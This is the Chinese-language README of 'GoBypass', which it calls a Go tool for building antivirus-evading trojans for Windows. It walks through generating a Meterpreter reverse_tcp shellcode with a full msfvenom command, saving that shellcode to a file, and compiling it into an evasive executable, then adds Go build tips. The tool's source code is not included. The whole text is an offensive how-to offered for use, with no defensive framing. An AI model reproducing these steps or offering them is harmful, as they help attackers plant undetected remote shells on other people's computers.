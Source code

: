 # GoBypass

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

在`Kali`中使用`msfvenom`生成需要的`Payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制出以下格式的`shellcode`并在当前目录新建`shellcode.txt`写入

```text
unsigned char buf[] = 
"\xfc\x48..."
......
"\xff\xe7...";
```

使用命令：`go run main.go`即可在当前目录生成免杀马`output.exe`

注意：
1. 确保环境变量中有`go`否则无法编译
2. 如果报错请先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`